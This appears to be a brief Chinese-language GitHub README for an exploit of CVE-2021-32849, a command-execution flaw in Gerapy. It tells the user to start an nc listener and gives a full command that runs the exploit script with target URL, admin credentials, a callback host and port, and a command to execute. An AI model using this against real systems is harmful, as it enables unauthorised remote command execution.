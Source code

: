 # cve-2021-32849
cve-2021-32849(gerapy命令执行)

# 使用方式
先开启一个nc进行监听，再用exp去打
```
python3 CVE-2021-32849.py -u http://192.168.1.69:8000 -U admin -P admin@123 -r 10.10.16.34 -p 8888 -c id
```
![图片](https://user-images.githubusercontent.com/49674960/165035254-0a9f5f92-101a-476b-ab1d-1ae1024a4eac.png)
